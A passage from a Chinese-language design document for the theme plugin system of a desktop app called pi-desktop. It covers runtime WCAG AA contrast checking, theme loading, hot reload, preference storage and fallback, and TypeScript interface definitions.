第 4.3.1 节提到：第三方主题插件（如 solarized）想实现"跟随系统的品牌主题"——系统暗时用 solarized-dark、系统亮时用 solarized-light——当前做不到。因为 `auto` 主题的 base 解析硬编码成 `dark`/`light`，不能指向第三方主题 id。第三方要么自己贡献一个 `auto` 变体（但 id 冲突会被内置 auto 二选一覆盖）、要么放弃跟随系统。

演进方向是让 `auto` 主题支持"自定义 base 映射"——manifest 里声明 `{ "lightBase": "solarized-light", "darkBase": "solarized-dark" }`，合并时按系统配色取对应 base。这是第 10 节的演进项，当前不实现。

---

## 8 对比度约束：WCAG AA 运行时校验

### 8.1 约束的内容

#### 8.1.1 WCAG AA 是什么

WCAG（Web Content Accessibility Guidelines）AA 级要求：正文文本（小于 18pt 或 14pt 粗体）与背景的对比度 ≥ 4.5:1，大字号（≥18pt 或 ≥14pt 粗体）对比度 ≥ 3:1。pi-desktop 主题 token 的所有前景/背景颜色对必须满足 AA——这是无障碍的硬约束，不是"建议"。

core 在 `domain/slots/theme-tokens.ts` 定义"必须校验的颜色对"列表，每个对是 `{ fg: tokenKey, bg: tokenKey, largeText?: boolean }`：

```typescript
// domain/slots/theme-tokens.ts —— 必须校验对比度的颜色对
const CONTRAST_PAIRS = [
  { fg: "color.fg",          bg: "color.bg" },          // 正文 on 主背景
  { fg: "color.surface-fg",  bg: "color.surface" },      // 卡片正文 on 卡片背景
  { fg: "color.muted",       bg: "color.surface", largeText: true }, // 次要文本（通常小字号但语义辅助）
  { fg: "color.primary-fg",  bg: "color.primary" },      // 主色上的文本
  { fg: "color.accent.success", bg: "color.bg" },        // 状态色 on 主背景（图标/标签）
  { fg: "color.accent.warning", bg: "color.bg" },
  { fg: "color.accent.error",   bg: "color.bg" },
  { fg: "color.accent.danger",  bg: "color.bg" },
];
```

这个列表是 core 定义的稳定契约——主题插件不能改它（不能加对、不能减对），只能改 token 值。core 加对是扩展（旧主题的新对用默认值校验）、不减对。

#### 8.1.2 对比度计算

对比度计算用 WCAG 公式：把两个颜色转成相对亮度（sRGB → 线性 RGB → 加权求和），对比度 = (L1+0.05)/(L2+0.05)，L1 是较亮的、L2 是较暗的。这需要解析 hex/rgb 字符串成 RGB 分量。core 在 application 层提供 `contrastRatio(fg: string, bg: string): number` 函数，支持 hex（`#1e1e2e`、`#1e1e2eff`）和 rgb（`rgb(30,30,46)`）两种格式。不支持的格式（如变量引用、非法字符串）返回 `NaN`，校验时记"无法解析"警告。

### 8.2 校验时机：运行时、不在安装时

#### 8.2.1 安装链路不校验

第三方主题插件安装时（`DESIGN.md` 3.9 的 installer 链路）**不校验对比度**。原因有二：

第一，安装链路（`application/installer/verifier.ts`）做的是 schema + 签名 + 版本校验（纯逻辑），它不感知主题语义——verifier 不知道一个 token key 是颜色还是字号、不知道哪个对要校验对比度。把对比度校验塞进 installer 会让 installer 依赖主题语义层，违反"组装和调用应该分开"——installer 管获取/校验/落盘，不管主题。

第二，安装时校验了也不够——主题插件可以声明 `base`，继承的 token 在安装时还没合并、校验不到。真正的对比度是合并后的 `Theme` 对象算的，必须运行时合并后校验。

所以安装链路不管对比度，靠运行时主题合并校验兜底。这是"安装时校验结构、运行时校验语义"分层的体现。

#### 8.2.2 运行时合并后校验

校验时机是运行时主题合并阶段——`buildCurrentTheme` 调完 `resolveTheme` 拿到合并后的 `Theme`，立刻跑 `validateContrast(theme)`：

```typescript
// application/theme/contrast.ts —— 运行时对比度校验
interface ContrastWarning {
  pair: { fg: string; bg: string };   // token key 对
  fgValue: string;                    // 实际颜色值
  bgValue: string;
  ratio: number;                      // 算出的对比度
  required: number;                   // 要求（4.5 或 3）
  message: string;                    // 人可读警告
}

function validateContrast(theme: Theme): ContrastWarning[] {
  const warnings: ContrastWarning[] = [];
  for (const pair of CONTRAST_PAIRS) {
    const fg = theme[pair.fg];
    const bg = theme[pair.bg];
    if (!fg || !bg) {
      warnings.push({ pair, fgValue: fg, bgValue: bg, ratio: NaN, required: 0,
        message: `token 缺失: ${pair.fg} 或 ${pair.bg}` });
      continue;
    }
    const ratio = contrastRatio(fg, bg);
    if (Number.isNaN(ratio)) {
      warnings.push({ pair, fgValue: fg, bgValue: bg, ratio: NaN, required: 0,
        message: `颜色值无法解析: fg=${fg} bg=${bg}` });
      continue;
    }
    const required = pair.largeText ? 3 : 4.5;
    if (ratio < required) {
      warnings.push({ pair, fgValue: fg, bgValue: bg, ratio, required,
        message: `对比度 ${ratio.toFixed(2)} < ${required} (${pair.fg} on ${pair.bg})` });
    }
  }
  return warnings;
}
```

返回的警告数组塞给诊断页（第 8.4 节），不影响 `Theme` 对象的注入——即使有警告、`Theme` 照样注入 `ThemeContext`、GUI 照样渲染。这是"警告≠禁用"。

### 8.3 警告不等于禁用

#### 8.3.1 为什么不禁用

对比度不达标的主题不禁用，原因有三：

第一，对比度是软约束不是硬约束。它影响可读性、不影响功能——一个对比度 4.4:1 的主题照样能用，只是对视力障碍用户不友好。禁用会让用户"装了主题却用不了"，体验比"用了主题但对比度略低"更差。

第二，禁用标准难定。AA 是 4.5:1，但有些场景（图标、装饰色）4.0:1 也可接受、有些场景（正文）必须 4.5:1。core 的 `CONTRAST_PAIRS` 列表是保守的，但禁用会把这些灰度判断变成一刀切，损失灵活性。

第三，用户可能有意选低对比度（比如某种艺术主题），禁用剥夺了用户选择权。pi-desktop 的立场是：core 提供诊断信息、用户自己决定。警告让用户知情，禁用替用户决定。

所以对比度不达标只产生警告、记入诊断页、在管理 UI 主题选择器里标一个黄色警告图标，主题照常可用。用户看到警告可以自己换主题或改 token 值。

#### 8.3.2 警告的可见性

警告在两个地方可见：

- **诊断页**（`DESIGN.md` 4.3 诊断页）：`buildCurrentTheme` 返回的 `warnings` 数组写进诊断页的"主题"分类下，每条警告显示 token 对、实际值、对比度、要求值。诊断页是排障入口、不是阻断入口。
- **主题选择器**：管理 UI 的主题选择器里，有对比度警告的主题项旁边显示一个黄色警告图标，hover 显示"有 N 条对比度警告，详见诊断页"。这是让用户在选主题时就知情。



**图 8 — 对比度校验流程：合并后校验、警告不阻断注入、写诊断页**

### 8.4 诊断页的承载

#### 8.4.1 诊断页是主题排障入口

诊断页（`DESIGN.md` 4.3）是主题插件的排障入口。除了对比度警告，诊断页还承载：

- **循环继承错误**：`resolveTheme` 抛的循环继承，记主题 id + 继承链。
- **base 不存在错误**：`base` 指向的主题 id 不在注册表，记主题 id + 缺失的 base id。
- **token 缺失**：`CONTRAST_PAIRS` 里某个 token key 在合并后的 `Theme` 里没有值（主题插件没填、core 也没默认值），记缺失的 key。
- **颜色值无法解析**：token 值不是合法 hex/rgb，记 key + 实际值。
- **主题插件加载失败**：manifest 校验失败（`DESIGN.md` 3.5 第 3 项），记插件 id + 错误。

这些诊断信息让主题插件作者和用户能定位"为什么我的主题没生效""为什么有警告"。诊断页是只读的排障视图、不提供修复操作——修复要改主题插件（token 值或 manifest），不是在诊断页里改。

### 8.5 状态指示不只用颜色

#### 8.5.1 色盲友好

对比度约束管的是"能看见"，还有一类约束管的是"色盲能区分"——状态指示不能只用颜色。比如 bash 输出的 stdout/stderr 不能只红绿区分（红绿色盲分不清），要加图标或前缀辅助。这是 pi.ui 组件库的规范、不是主题 token 的事——token 提供 `color.accent.success`/`color.accent.error`，pi.ui 的组件在用这两个色时同时带图标（如 `✓`/`✗`）或前缀（如 `[OK]`/`[ERR]`），让色盲用户靠形状区分。

这条规范在 `DESIGN.md` 4.11.4 末尾明确：状态指示不只用颜色——如 bash 输出的 stdout/stderr 不只红绿、加图标/前缀辅助（色盲友好）。主题插件管"色值是什么"、pi.ui 组件管"色怎么用 + 配什么图标"，两者分工。这让主题插件不只管"好看"、也管"可读可达"。

---

## 9 与 pi.ui 组件库的关系

### 9.1 pi.ui 自带主题

#### 9.1.1 组件内部读 theme

`pi.ui` 组件库（`shell/renderer/ui/` 提供 Button/Input/Dialog/Icon 等）**自带主题**——每个组件内部 `useContext(ThemeContext)` 读当前 `Theme`、用 token 值渲染样式。插件写 UI 时用 `pi.ui.Button` 等内置组件、自动跟主题、不用自己处理颜色。Button 的背景色取 `color.primary`、文字取 `color.primary-fg`、圆角取 `radius.sm`、内边距取 `spacing.xs`/`spacing.sm`——这些全在 Button 组件内部读 token、插件作者看不到也不操心。

#### 9.1.2 主题切换时 pi.ui 自动重渲染

主题切换时 `ThemeContext` 的 value 变，所有 pi.ui 组件因为 `useContext` 自动重渲染、读到新 token 值。插件不需要订阅主题切换事件、不需要手动刷新——React 响应式全权处理。这是"用 pi.ui 组件自动获得主题跟随"的实现机制。

### 9.2 自定义元素读 theme

#### 9.2.1 什么时候直接读 token

只有插件要画"内置组件库没有的自定义元素"时，才经 props 的 `theme` 字段直接读 token。比如某个插件要画一个自定义的进度条组件、pi.ui 没有 Progress，插件自己写一个 `<div>`——这时从 props 或 `useContext` 拿 `theme`、读 `theme["color.primary"]` 取主色、`theme["radius.sm"]` 取圆角。

#### 9.2.2 不硬编码颜色值

直接读 token 时，**不该硬编码颜色值**（`"#89b4fa"` 这种），必须经 theme 取。这条 lint 可校验——renderer 侧沙箱加载器（`DESIGN.md` 3.6）在加载插件代码时可以扫插件源码是否出现 hex 颜色字面量、警告。具体实现是 AST 扫描：找形如 `"#rrggbb"`/`"#rgb"`/`rgb(...)` 的字符串字面量，如果不在白名单（如测试代码、色板常量）里就警告"硬编码颜色 {值}，应改用 theme token"。

这条规则的目的：硬编码颜色会让主题切换对那个元素失效——主题换了、别的地方都变了色、只有那个硬编码的元素不变，视觉割裂。经 theme 取值保证所有元素同步切主题。



**图 9 — pi.ui 组件读 Context、自定义元素读 props.theme，硬编码颜色被 lint 警告**

### 9.3 pi.ui 的无障碍内建

#### 9.3.1 ARIA 与焦点管理

pi.ui 组件库自带 ARIA 支持——每个组件暴露 `ariaLabel`/`ariaDescribedBy` 等 props，并内置正确的 role（Dialog 是 `dialog`、Button 是 `button`、Input 是 `textbox` 等）。插件用 pi.ui 组件自动获得无障碍语义。焦点管理（`DESIGN.md` 1.9.4）也由 pi.ui 的 Dialog 和 focus-trap 承担——Dialog 打开时焦点移到第一个可交互元素、Tab 在模态内循环、Esc 关闭、关闭后还原焦点。这些是 pi.ui 组件库的内置能力，插件用 pi.ui.Dialog 自动获得、不用自己实现 focus trap。

推荐 react-focus-lock 等成熟库做 focus trap，不自己造。这条规范在 `DESIGN.md` 1.9.4 末尾明确：pi.ui 组件库（4.11.4）内置 focus trap 能力（推荐 react-focus-lock 等库），插件用 pi.ui 组件自动获得；自定义元素要自己遵循。

主题插件和 pi.ui 的无障碍关系是：主题 token 提供颜色（要满足对比度）、pi.ui 组件提供 ARIA 和焦点管理。两者合力让 GUI 既好看又可达。主题插件不管 ARIA（那是组件库的事）、pi.ui 不管色值（那是主题的事）——关注点分离。

---

## 10 为什么主题是插件不是 core

### 10.1 core 极薄、内容插件化

#### 10.1.1 和 i18n 同理

主题插件为什么是插件不是 core，和 i18n 同理：core 极薄、内容插件化。把主题放 core 会硬编码一套默认视觉、用户换不了（或得改 core）；放插件，用户能整体替换、项目能定制品牌色、第三方能发新主题。VSCode 的默认主题就是 extension、可被覆盖——pi-desktop 镜像这个。

#### 10.1.2 主题插件的零成本

主题插件是纯声明式（只有 token 值、无代码模块）、零运行时成本，和 i18n 同形态。这意味着：

- 加载它不 spawn worker、不占 MessagePort、不进生命周期管理。
- 它的唯一失败模式是 manifest 校验失败（加载前隔离），不会运行时抛错拖垮 core。
- 卸载它就是从主题槽注册表摘掉贡献项、如果当前主题是它则回退到默认。

这让主题插件的"轻"是真正的轻——和带代码模块的插件（如时间线渲染插件、终端插件）完全不同量级。这种轻让用户敢装敢卸第三方主题、不用担心性能或稳定性代价。

### 10.2 core 不内嵌视觉常量是纪律

#### 10.2.1 这条纪律的判据

"core 不内嵌视觉常量"是一条纪律、不是建议。判据是：

- core 代码（`domain/` + `application/` + `gateway/` 里 core 自己的部分，不含 `plugins/` 和 `shell/renderer/ui/` pi.ui 实现）里出现 `color.bg`/`#1e1e2e`/`14px`/`8px` 这种字面量是 bug——应改用 `theme["color.bg"]`/`theme["font.size.base"]`/`theme["spacing.xs"]`。
- core 代码里出现 `padding: 14px` 这种零散值是 bug——14px 不是 token、应改用某个 spacing token。
- pi.ui 组件库的实现代码里读 token 是合法的（它就是干这个的），但读 token 时必须用 `theme["key"]`、不能缓存成局部常量（缓存会让主题切换时 pi.ui 不刷新）。

这条纪律可以用 lint 校验——扫 core 代码（不含 pi.ui 实现和 plugins）是否出现视觉字面量。这是"core 极薄"在代码层面的可验证判据。

#### 10.2.2 守不住会怎样

守不住这条纪律，core 就会"偷偷"长出自己的默认视觉。某天 core 渲染状态栏时为了方便写了个 `color: #1e1e2e`——这个色就绕过了主题槽、主题切换时它不变。再某天另一个开发者又在别处写了 `padding: 8px`——又一个绕过。久而久之 core 里散落一堆视觉常量，主题插件换了、这些常量不变，GUI 视觉割裂。这就是 现有方案的问题的一种形态——把视觉硬编码进 core 等于把"换皮"的代价从"换插件"抬到"改 core 代码"。

所以这条纪律要从严、用 lint 卡死。core 只认 token 契约、不认具体值，是"圆心稳定、外层可变"在视觉层面的几何表达。

---

## 11 主题插件的生命周期与加载器交互

### 11.1 加载管线的主题段落

#### 11.1.1 主题插件走外层数据管线

主题插件是纯声明式，加载时只走 `DESIGN.md` 3.5 加载器九项里的外层数据管线（第 1-3 项 + 第 7 项），不进内层运行时管理（第 4-6 项 + 第 8 项针对代码模块的部分）：

- **第 1 项发现**：扫三处目录（项目级 `<cwd>/.pi/desktop/plugins/`、用户级 `~/.pi/desktop/plugins/`、内置 `src/plugins/`），找到主题插件的 `plugin.json`。
- **第 2 项优先级合并**：同 id 主题插件按 project > user > installed > builtin 取胜者。内置主题插件（id: `theme`）优先级最低，用户级放一个同 id 的就覆盖它。
- **第 3 项 manifest 校验**：校验 `contributes.themes` 每项的 `id`/`name`/`tokens` 必填、`tokens` 的 key 在 core 清单内、值的类型是字符串。校验失败的主题插件标红、跳过、不拖垮其他插件。
- **第 7 项槽位挂载**：把校验通过的主题贡献项挂进主题槽注册表，按第 1.3.3 节的两层仲裁（token 级合并 + 整主题 id 二选一）。

第 4 项（生命周期 activate/deactivate）、第 5 项（错误隔离的运行时部分）、第 6 项（沙箱）、第 8 项（热重载的代码模块部分）对主题插件都不适用——它没有代码模块。热重载的第 8 项对主题插件部分适用：主题插件的 `plugin.json`（token 值）变了要重挂载，但这是数据重挂载、不是代码重加载。

#### 11.1.2 挂载后的延迟校验

挂载完主题贡献项后，还要做两个延迟校验（加载时不能做、要等所有主题贡献项都挂完）：

- **base 存在性校验**：遍历所有挂载的主题贡献项，检查 `base`（如果填了且不是 `"__auto__"`）指向的 id 是否在注册表里。不存在则标记该主题不可用、记诊断页。这个校验在所有主题挂载完之后做，因为 base 可能指向后挂载的主题。
- **循环继承预检**：对所有声明了 base 的主题，构建继承图、检测环。检测到环则环上的主题都标记不可用。这是 `resolveTheme` 运行时环检测的预检——预检能在加载时就发现环、不用等用户选到那个主题才报错。

这两个延迟校验是加载管线的收尾，做完后主题槽注册表处于"一致可用"状态——所有挂载的主题要么可用、要么标了不可用原因，没有"半挂载"状态。

### 11.2 热重载主题插件

#### 11.2.1 token 值改了怎么办

用户编辑了一个主题插件的 `plugin.json`（改了某个 token 值、或加了新主题），加载器的 file watcher（`DESIGN.md` 3.5 第 8 项）检测到改动：

1. 定位是哪个插件（按文件路径匹配）。
2. 重新发现该校验该插件的 manifest（走第 1-3 项）。
3. 卸载旧的贡献项（从主题槽注册表摘掉该插件挂的 tokens）。
4. 挂载新的贡献项（走第 7 项 + 延迟校验）。
5. 如果该插件贡献的是当前主题（`currentThemeId` 命中），触发重合并——`buildCurrentTheme` 重算、注入新 `Theme`、GUI 重渲染。

热重载要防抖（编辑器保存时连续触发只重载一次）、要处理重载失败（新版 manifest 校验失败时回退到旧版、不让插件进入悬空状态）。这些是加载器热重载的通用要求、不是主题专属，但主题插件的热重载是纯数据操作（没有 deactivate/activate 代码调用），比带代码模块的插件热重载简单。

#### 11.2.2 热重载不碰底座子进程

主题插件热重载只动桌面端 renderer + application 层，不碰底座子进程——这是 `DESIGN.md` 2.4.3"桌面插件配置走另一路"的体现。底座配置改了要重启 RPC 子进程（支柱②），桌面插件配置改了走加载器热重载（支柱③），两路分开。主题插件是桌面插件、走加载器热重载，底座子进程完全不知情、继续跑它的 agent。

---

## 12 主题偏好的存储与恢复

### 12.1 electron-store 存什么

#### 12.1.1 currentThemeId

桌面端主题偏好存在 electron-store（`shell/store/`，`DESIGN.md` 5.1.4 目录结构里 electron-store 偏好的落点）。存的是 `currentThemeId: string`——当前主题的 id（如 `"dark"`/`"light"`/`"auto"`/`"solarized-dark"`）。core 启动时读这个偏好、调 `buildCurrentTheme` 合并、注入 Context。

不存合并后的 `Theme` 对象——那个是运行时算的、每次启动重算。存 id 而不是合并结果，是因为主题插件的 token 值可能变了（热重载、插件更新），启动时按当前注册表重合并保证拿到最新值。如果存合并结果，会出现"启动后用的是旧 token、和注册表不一致"的问题。

#### 12.1.2 偏好不进 pi settings

主题偏好不进 pi settings（`~/.pi/agent/settings.json`）。这呼应"主题是桌面端偏好、和 pi 无关"——底座 settings 里有个 `theme` 字段但那是底座终端主题、和桌面 GUI 主题是两份。桌面端不读写底座的 `theme` 字段。两者各自独立存储、独立切换。

这个边界守不住会怎样？如果桌面端把主题 id 写进 pi settings 的 `theme` 字段，会让底座终端主题跟着桌面 GUI 主题变——但两者的语义色不对应（第 1.2.1 节），底座终端会试图用一个"GUI 主题 id"去找终端主题、找不到就 fallback、行为不可预测。所以严格分开。

### 12.2 启动时的主题恢复

#### 12.2.1 恢复流程

core 启动时的主题恢复流程：

1. 加载器加载所有插件（含主题插件），主题槽注册表填充完毕、延迟校验完成。
2. 从 electron-store 读 `currentThemeId`。如果为空（首次启动）用默认值 `"auto"`（跟随系统）。
3. 查注册表里该 id 的条目：若不存在（被卸载、被覆盖、id 改了）、**或存在但 `available: false`**（延迟校验判定循环继承 / base 不存在）→ fallback 到 `"auto"`、再不行 fallback 到 `"dark"`。fallback 时在诊断页记一条"主题 {id} 不可用（{原因}），已回退到 {fallbackId}"。
4. 调 `buildCurrentTheme(currentThemeId, registry)`。`buildCurrentTheme` 在内部捕获 `resolveTheme` 的 `ThemeError`、返回兜底 `Theme` + `error` 标记（见 2.2.2）；调用方检查 `error`、若存在则 fallback 到 `"auto"`、再不行 fallback 到 `"dark"`（每次 fallback 重调 `buildCurrentTheme`、同样检查 `error`）。启动恢复、用户切换、IPC 重合并三处调用点统一依赖此出口，`ThemeError` 不会在任何路径上冒泡到 core。
5. 把合并后的 `Theme` 注入 `ThemeContext`、渲染初始 GUI。
6. 如果当前主题是 `auto`，注册 `nativeTheme.on("updated")` 监听系统配色变化。



**图 10 — 启动时主题恢复：读偏好→存在则用、否则 fallback auto→dark→注入→注册监听**

#### 12.2.2 fallback 链

`currentThemeId` 不存在时的 fallback 链是 `auto → dark`。先试 `auto`（跟随系统，大部分用户的首选），`auto` 也不存在（用户卸了内置主题插件又没装替代）就 fallback 到 `dark`——`dark` 是 core 的最后兜底，如果连 `dark` 都没有，core 进入"token 缺失"状态、GUI 渲染出空值、用户会看到残缺界面、诊断页记"无可用主题"。这是极端情况，正常使用不会到这一步（内置主题插件随壳分发、保证 dark/light/auto 三个都在）。

---

## 13 主题插件与无障碍的整体关系

### 13.1 三个维度的合力

#### 13.1.1 颜色、对比度、非色信号

主题插件在无障碍上管三个维度：

- **颜色 token 值**：主题插件填的色值要满足 WCAG AA 对比度（第 8 节），这是"能看见"。
- **状态指示不只靠颜色**：pi.ui 组件用状态色时同时带图标/前缀（第 8.5 节），这是"色盲能区分"。
- **焦点与键盘可达**：pi.ui 组件内置 focus trap 和 ARIA（第 9.3 节），这是"能用键盘操作"。

三者合力让 GUI 对视力障碍、色盲、键盘用户都可达。主题插件只管第一个（色值 + 对比度），后两个是 pi.ui 组件库的规范、不是主题的事——但主题要提供满足对比度的色值、pi.ui 才能用这些色画出合规的组件。两者是上下游关系。

#### 13.1.2 无障碍是规范不是可选

`DESIGN.md` 1.9.4 末尾明确：无障碍是规范、不是可选。之前文档只说交互不说可达性，4.11.4 补上了"主题 token 有对比度约束"。这条规范在主题插件层面的落地是：core 的 `CONTRAST_PAIRS` 列表（第 8.1.1 节）是硬约束、运行时校验、不达标记警告。警告不等于禁用（第 8.3 节），但警告要让用户知情——诊断页 + 主题选择器警告图标。

这让主题插件不只管"好看"、也管"可读可达"。一个对比度不达标的主题插件，技术上能用（不禁用），但在诊断页和主题选择器里会被标警告，用户和插件作者都能看到、自行决定是否修复。这是"core 提供诊断、用户决定"的立场。

---

## 14 实现落点与代码地图

### 14.1 文件落点

#### 14.1.1 各层文件

按 `DESIGN.md` 5.1.4 洋葱目录结构，主题插件的实现落在以下文件：

| 层 | 文件 | 职责 |
|---|---|---|
| 圆心 domain | `domain/slots/theme-tokens.ts` | token key 清单 + 默认值 + `CONTRAST_PAIRS` 列表 + `Theme` 类型（`Record<string, string>`） |
| 圆心 domain | `domain/slots/schema.ts` | 主题槽贡献项 schema（`{id, name, tokens, base?}`） |
| 圆心 domain | `domain/slots/registry.ts` | `SlotRegistry["themes"]` 主题槽注册表（按 id 聚合的 token） |
| application | `application/theme/merge.ts` | `resolveTheme` 递归合并 + 环检测 + `buildCurrentTheme` 入口 |
| application | `application/theme/contrast.ts` | `validateContrast` + `contrastRatio` 颜色解析 |
| application | `application/theme/auto-theme.ts` | `auto` 主题的动态 base 解析 + 持有 shell 层经 `setSystemColorScheme` 注入的系统配色值（不直接读 `nativeTheme`） |
| application | `application/loader/mount.ts` | 主题槽挂载（两层仲裁：token 级合并 + 整主题二选一） |
| gateway | （无） | 主题不碰 gateway——主题是桌面端偏好、不经 RPC、不碰底座协议 |
| shell | `shell/store/preferences.ts` | electron-store 存 `currentThemeId` |
| shell | `shell/electron-main/theme-listener.ts` | `nativeTheme.on("updated")` 监听 → 读 `prefersColorScheme` 调 `setSystemColorScheme` 注入 → `resolveAutoBase()` 收敛 → 经 main→renderer IPC `theme:system-color-scheme-changed` 通知 renderer 侧重合并（见 7.2.1） |
| shell | `shell/renderer/theme-context.ts` | `ThemeContext` React Context + Provider |
| shell | `shell/renderer/ui/` | pi.ui 组件库（Button/Input/Dialog/Icon，内部 `useContext(ThemeContext)`） |
| plugins | `plugins/theme/plugin.json` | 内置主题插件（dark/light/auto 三主题的 token 值） |

#### 14.1.2 依赖方向

依赖方向严格向内：

- `plugins/theme/` 只依赖 `domain`（token key 清单），是纯数据、不 import 任何 application/shell 代码。
- `application/theme/auto-theme.ts` 依赖 `domain`，**不依赖 `shell`**：它只持有由 shell 层经 `setSystemColorScheme` 注入的系统配色值、不直接读 `nativeTheme`（依赖方向向内）。`resolveAutoBase` 读取该注入值，无需 nativeTheme 能力即可落定。
- `application/theme/merge.ts`/`contrast.ts` 依赖 `domain`（`Theme` 类型、`CONTRAST_PAIRS`、`SlotRegistry`），不依赖 `gateway`/`shell`。
- `shell/electron-main/theme-listener.ts` 依赖 `application/theme/auto-theme.ts`（读 `nativeTheme.prefersColorScheme` 后调 `setSystemColorScheme` 注入、再经 IPC 通知 renderer），不直接碰 `domain`。
- `shell/renderer/theme-context.ts` 收到 IPC 后调 `setSystemColorScheme` 注入 application 层、再调 `buildCurrentTheme` 重合并，依赖 `domain`（`Theme` 类型）+ `application/theme`，提供 Context 实现。

gateway 层完全不参与主题——主题不经 RPC、不碰底座协议。这是"主题是桌面端偏好、和 pi 无关"在代码依赖上的体现：主题的实现不触及底座协议边界层。

### 14.2 关键接口汇总

#### 14.2.1 圆心接口

```typescript
// domain/slots/theme-tokens.ts
export type Theme = Record<string, string>;  // token key → 值

export const THEME_TOKEN_SCHEMA_VERSION = "1.0";  // token 清单语义版本，见 15.1.1

export const THEME_TOKEN_KEYS = [
  "color.bg", "color.fg", "color.surface", "color.surface-fg",
  "color.primary", "color.primary-fg",
  "color.accent.success", "color.accent.warning", "color.accent.error", "color.accent.danger",
  "color.border", "color.muted",
  "font.size.base", "font.size.sm", "font.size.lg",
  "font.family.mono", "font.family.sans",
  "spacing.xs", "spacing.sm", "spacing.md", "spacing.lg", "spacing.xl",
  "radius.sm", "radius.md", "radius.lg",
  "border.width.thin", "border.color",   // border.color 为派生 token，见 3.7 / DERIVED_TOKENS
  "shadow.sm", "shadow.md", "shadow.lg",
] as const;

// 派生 token 集合：这些 key 在 THEME_TOKEN_KEYS 内（消费侧 theme["border.color"] 取值合法），
// 但主题插件**不应**在 manifest 显式赋值——加载器第 3 项校验据此集合判定：显式赋值即记
// "派生 key 不应显式赋值"警告并忽略该值（见 3.7 / 4.1.2）。其值由 buildCurrentTheme 在
// 默认值补齐之后自动从依赖 token 派生（border.color ← color.border）。
export const DERIVED_TOKENS = new Set<string>([
  "border.color",
]);

// core 兜底默认值：取自内置 dark 主题（plugins/theme/plugin.json 的 dark 主题 token 集）。
// 合并阶段 resolveTheme 完成后、对 THEME_TOKEN_KEYS 逐 key 补齐——
// theme 里缺的 key 用这里的默认值填上，保证合并后 Theme 永远含全部 key。
// 注意：派生 token（见 DERIVED_TOKENS，当前为 border.color）不在此列默认值——
// 它在 buildCurrentTheme 默认值补齐之后、由 buildCurrentTheme 从 color.border 复制（见 2.2.2 / 3.7）。
export const THEME_TOKEN_DEFAULTS: Record<string, string> = {
  "color.bg": "#0e0e11", "color.fg": "#e8e8eb", "color.surface": "#1b1b20", "color.surface-fg": "#e8e8eb",
  "color.primary": "#f5f5f7", "color.primary-fg": "#101013",
  "color.accent.success": "#4ac26b", "color.accent.warning": "#e5a63d",
  "color.accent.error": "#f2555a", "color.accent.danger": "#f2555a",
  "color.border": "#26262c", "color.muted": "#86868f",
  "font.size.base": "14px", "font.size.sm": "12px", "font.size.lg": "16px",
  "font.family.mono": "\"SF Mono\", \"JetBrains Mono\", monospace",
  "font.family.sans": "-apple-system, \"Segoe UI\", sans-serif",
  "spacing.xs": "8px", "spacing.sm": "12px", "spacing.md": "16px", "spacing.lg": "24px", "spacing.xl": "32px",
  "radius.sm": "4px", "radius.md": "8px", "radius.lg": "12px",
  "border.width.thin": "1px",
  "shadow.sm": "0 1px 2px rgba(0,0,0,0.5)", "shadow.md": "0 4px 12px rgba(0,0,0,0.5)", "shadow.lg": "0 12px 32px rgba(0,0,0,0.6)",
};

export const CONTRAST_PAIRS = [ /* 第 8.1.1 节 */ ];
```

#### 14.2.2 application 接口

```typescript
// application/theme/merge.ts
export class ThemeError extends Error {}

export function buildCurrentTheme(
  themeId: string,
  registry: ThemeRegistry,
): { theme: Theme; warnings: ContrastWarning[]; error?: { kind: "unavailable"; themeId: string; reason: string } };

// application/theme/contrast.ts
export interface ContrastWarning { /* 第 8.2.2 节 */ }
export function validateContrast(theme: Theme): ContrastWarning[];
export function contrastRatio(fg: string, bg: string): number;

// application/theme/auto-theme.ts
export type SystemColorScheme = "dark" | "light" | "no-preference";
/** shell 层调用：注入当前系统配色。application 层只存值、不直接读 nativeTheme（依赖方向向内）。 */
export function setSystemColorScheme(scheme: SystemColorScheme): void;
/** resolveTheme 合并 auto 主题时调用：按已注入的系统配色解析动态 base。 */
export function resolveAutoBase(): "dark" | "light";
/** 订阅系统配色变化（application 层内部广播）。
 *  注意：main→renderer IPC 路径（7.2.1）不经过本函数——renderer 收到 IPC 后直接调
 *  setSystemColorScheme + buildCurrentTheme。本函数供 application 层模块/单测订阅系统配色变化；
 *  PluginContext.theme.onThemeChange 订阅的是合并后的 Theme 变化（不是原始系统配色事件），不复用本函数。
 *  当前 core 内部无消费者、保留供演进（见 24.1）。 */
export function onSystemColorSchemeChange(cb: () => void): () => void;
```

#### 14.2.3 shell 接口

```typescript
// shell/renderer/theme-context.ts
export const ThemeContext = React.createContext<Theme>({});
export function useTheme(): Theme { return useContext(ThemeContext); }

// shell/store/preferences.ts
export function getCurrentThemeId(): string;        // 从 electron-store 读
export function setCurrentThemeId(id: string): void; // 写 electron-store

// shell/electron-main/theme-listener.ts
export function startThemeListener(): void;  // 注册 nativeTheme.on("updated")
```

#### 14.2.4 暴露给插件的 theme API（PluginContext）

管理 UI 插件（第 6.1.1 节）需要枚举可用主题、读取/切换当前主题、订阅主题变化——这些能力经 `PluginContext.theme` 暴露给插件，落点在 `shell/renderer/plugin-context.ts`（经依赖倒置，接口定义在 `domain/plugins/context.ts` 圆心、实现在 shell 层）：

```typescript
// domain/plugins/context.ts —— PluginContext.theme（圆心接口定义）
interface ThemePluginApi {
  /** 列出注册表里所有可用主题（available=true），含 id/name/sourcePlugin/available/不可用原因。
   *  主题选择器的下拉项数据源。读取注册表快照、不触发合并。 */
  listThemes(): ThemeInfo[];
  /** 当前 currentThemeId（从 electron-store 读，和管理 UI 显示一致）。 */
  getCurrentThemeId(): string;
  /** 切换当前主题：写 electron-store、触发 buildCurrentTheme 重合并、setValue 进 ThemeContext。
   *  目标 id 不可用（available=false 或不存在）时回退（见 12.2.1 的 fallback 链）。
   *  不需额外权限——主题切换是桌面端偏好、不属于敏感操作。 */
  setCurrentThemeId(id: string): void;
  /** 订阅主题变化：ThemeContext value 变化时回调（含用户切换、auto 跟随系统、热重载触发）。
   *  返回取消订阅函数。插件用它做"主题变了我要重渲染"的响应。 */
  onThemeChange(cb: (theme: Theme) => void): () => void;
}

interface ThemeInfo {
  id: string;
  name: string;
  sourcePlugin: string;
  available: boolean;
  unavailabilityReason?: string;
}
```

